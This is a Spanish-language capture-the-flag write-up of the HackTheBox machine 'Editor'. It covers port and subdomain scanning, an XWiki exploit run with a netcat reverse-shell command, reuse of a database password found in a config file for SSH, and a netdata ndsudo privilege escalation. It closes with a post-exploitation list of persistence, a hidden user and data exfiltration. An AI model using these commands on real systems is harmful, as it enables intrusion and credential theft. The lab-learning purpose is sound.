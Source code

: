 # Writeup - HTB "Editor"

## 1. Reconocimiento inicial

### Ping

```bash
ping 10.10.11.80
```

### Escaneo de puertos

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.80
```

#### Puertos abiertos encontrados:

* **22/tcp** - SSH
* **80/tcp** - HTTP
* **8080/tcp** - HTTP-Proxy

### Detección de versiones

```bash
nmap -p22,80,8080 -sCV 10.10.11.80
```

#### Resultados relevantes:

* **22/tcp**: `OpenSSH 9.6p1 Ubuntu 3ubuntu13.11`
* **80/tcp**: `nginx 1.24.0 (Ubuntu)`
* *80/tcp**: `nginx 1.24.0 (Ubuntu)`

---

## 2. Enumeración web

### Modificación de `/etc/hosts`

Se añadió la siguiente entrada para poder acceder al sitio:

```
10.10.11.80 editor.htb
```

Al explorar la web principal, **no se encontró nada relevante**.

### Enumeración de subdominios

```bash
wfuzz -c \
  -z file,/usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt \
  -u http://10.10.11.80/ \
  -H "Host: FUZZ.editor.htb" \
  --hc 404 \
  --hh 154 \
  -t 40

```

Se descubrió un subdominio interesante: **`wiki.editor.htb`**

---

Encontre esta pagina de wiki donde encontre que la version es XWiki Debian 15.10.8

Investigando sobre esta version enocntre una vulneravilidad CVE-2025-24893

con esta vulneravilidad busque exploits y encontre este https://github.com/gunzf0x/CVE-2025-24893.git

ejecutando este script y poneindome en escucha logre conectarme a el equipo mendiante una reverse shell

$ python3 CVE-2025-24893.py -t 'http://example.com:8080' -c 'busybox nc 10.10.10.10 9001 -e /bin/bash'

nc -lvnp 9001

una vez conectado explore un poco dentro de los archivos queme permitia el suuario XWiki, pero no encontre ninguna bandera. pero encontre que en /home existe un directorio llamado oliver

Preguntando a chatgpt sobre la configuracion de XWiki me ha dado un posible directorio donde podria encontrar posibles credenciales

/usr/lib/xwiki/WEB-INF

revisando entre los archivos de esta carpeta encontre el archivo

hibernate.cfg.xml 

donde encontre unas credenciales

<property name="hibernate.connection.password">theEd1t0rTeam99</property>

y las probare con el usuario oliver

ssh oliver@editor.htb

acceso exitoso

ahora me muevo al directorio del suario oliver y encuentro un archivo user.txt

encontre la primera flag

busque por archivos con permisos para continuar con la intruccion

find / -perm -4000 -type f 2>/dev/null

encontre un archvo con permisos con la posibilidad de ser explotado para obtener acceso root

/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo

buscando sobre este archivo con permisos root encontre que es vulnerable CVE-2024-32019

Encontre un exploit para explotar la vulneravilidad en https://github.com/AliElKhatteb/CVE-2024-32019-POC

con el archivo exploit.c lo ejecute

x86_64-linux-gnu-gcc -o nvme exploit.c -static


## 8. Post-Explotación

📌 Acciones posibles tras obtener acceso como **root**:

- ✅ Establecer persistencia
- 👤 Crear usuario oculto
- 🔐 Añadir clave pública SSH
- 📦 Exfiltrar información sensible
- 🌐 Explorar red interna
- 🔀 Pivoting hacia otras máquinas
- 🧹 Eliminar huellas
- 💣 Destruir el sistema (⚠️ no recomendado)
---
